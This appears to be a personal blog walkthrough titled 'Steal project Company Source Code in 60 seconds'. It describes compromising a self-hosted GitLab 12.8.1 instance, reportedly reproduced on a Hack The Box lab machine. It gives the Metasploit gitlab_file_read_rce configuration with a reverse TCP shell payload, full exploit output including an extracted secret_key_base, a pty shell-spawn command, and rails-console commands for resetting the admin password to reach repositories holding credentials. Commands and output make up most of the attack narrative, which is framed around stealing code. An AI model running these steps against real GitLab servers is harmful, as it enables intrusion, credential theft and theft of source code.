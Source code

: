 ```yaml
---
layout: default
---
```


### Steal project Company Source Code in 60 seconds

![title](https://m1sn1k.github.io/blog/Hack-Gitlab-CI-and-Company-Compromised-in-next-stage/title.jpg)


The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Resrting the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.


####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!


![register](https://m1sn1k.github.io/blog/Hack-Gitlab-CI-and-Company-Compromised-in-next-stage/register.jpg)



Now i registered myself as oleksii and logged in


![login](https://m1sn1k.github.io/blog/Hack-Gitlab-CI-and-Company-Compromised-in-next-stage/login.jpg)


Didn’t see anything good and juicy then i just go to https://gitlab.site.io/help

![version](https://m1sn1k.github.io/blog/Hack-Gitlab-CI-and-Company-Compromised-in-next-stage/version.jpg)


So its 12.8.1 , so i searched a bit about it on google and got so many CVES

And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

![asap](https://m1sn1k.github.io/blog/Hack-Gitlab-CI-and-Company-Compromised-in-next-stage/asap.jpg)


#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               Required  Description
   ----             ---------------                                               --------  -----------
   USERNAME         oleksii@test.test                                             no        The username 
   PASSWORD         oleksii@test.test                                             no        The password for username
   RHOSTS           10.10.10.                                                     yes       The target host(s)    
   RPORT            443                                                           yes       The target port (TCP)
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  yes       The path to the secrets.
   TARGETURI        /users/sign_in                                                yes       The path to the application
   VHOST            gitlab.site.io                                                no        HTTP server virtual host


Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.67      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnersability: 
```

msf6 exploit(multi/http/gitlab_file_read_rce) > exploit 
[-] Handler failed to bind to 10.10.14.*:4444:-  -
[*] Started reverse TCP handler on 0.0.0.0:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/Dyb4bxA6
[*] Created project /oleksii/L8SKsN52
[*] Created issue /oleksii/Dyb4bxA6/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102134743_default_10.10.10.*_gitlab.secrets_489388.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/Dyb4bxA6
[*] Deleted project /oleksii/Dyb4bxA6
[*] Attempting to delete project /oleksii/L8SKsN52
[*] Deleted project /oleksii/L8SKsN52


Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")' create simple shell.
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin

| Resetting admin password | [https://docs.gitlab.com/12.10/ee/security/reset_root_password.html] |

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```
or

Other type get username and email without Gitlab authentification is use api https://gitlab.sitec.io/api/v4/users/1 

Now you can change your password:
```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```
It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.
```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all command from this notes then spend no more than 60 second.in 60 seconds bacouse I think If you repeat all command from this notes and spend no more than 60 second. 




 
